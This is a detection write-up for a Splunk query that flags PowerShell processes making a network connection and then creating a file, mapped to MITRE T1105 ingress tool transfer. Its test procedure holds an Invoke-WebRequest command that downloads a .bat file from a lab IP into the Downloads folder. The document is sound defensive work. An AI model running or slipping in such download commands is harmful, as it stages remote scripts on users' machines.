

# PowerShell File Creation from Network Connection

## Objective

Detect if an endpoint created a file via a network connection from a PowerShell process.

---

## MITRE ATT&CK

- Tactic(s): Command and Control

- Technique(s)
  - T1105: Ingress Tool Transfer

---

## Why This Matters

Post-compromise, threat actors often try to download additional payloads from an external source. By detecting this we can take effort to investigate and remediate the compromised device before the file can be executed.

---

## SPL Query

```spl

index=* (EventCode=3 OR EventCode=11) 
| stats
    values(EventCode) as EventCodes
    values(Image) as Images
    values(User) as Users
    values(ProcessId) as ProcessId
    values(DestinationIp) as DestinationIp
    values(DestinationHostname) as DestinationHostname
    values(DestinationPort) as DestinationPort
    values(Protocol) as Protocol
    values(TargetFilename) as TargetFilenames
    by ProcessGuid
| search Images="*\\powershell.exe"
| where isnotnull(mvfind(EventCodes, "^3$")) AND isnotnull(mvfind(EventCodes, "^11$"))

```

---

## Test Procedure

Ran the following command:

1. Invoke-WebRequest -Uri "http://192.168.140.130:8080/test.bat" -OutFile "$env:USERPROFILE\Downloads\test.bat"

---

## Sample Output



---

## Fields Used

| Field | Purpose |
| ------ | --------- |
| EventCode | Used to determine a file creation event as well as a network connection event. |
| ProcessGuid | Links the network connection and file creation together |
 | Image | Used to specify specifically powershell activity |

---

## False Positives

Developers or IT professionals may download certain scripts via PowerShell for legitimate purposes

---

## Improvements

- Increase alert severity if this is from an external IP address
- Create allowlists for reputable destinations
- Enrich the detection with IP reputation data
- Correlate the detection with subsequent execution

---

## References

- <https://attack.mitre.org/>
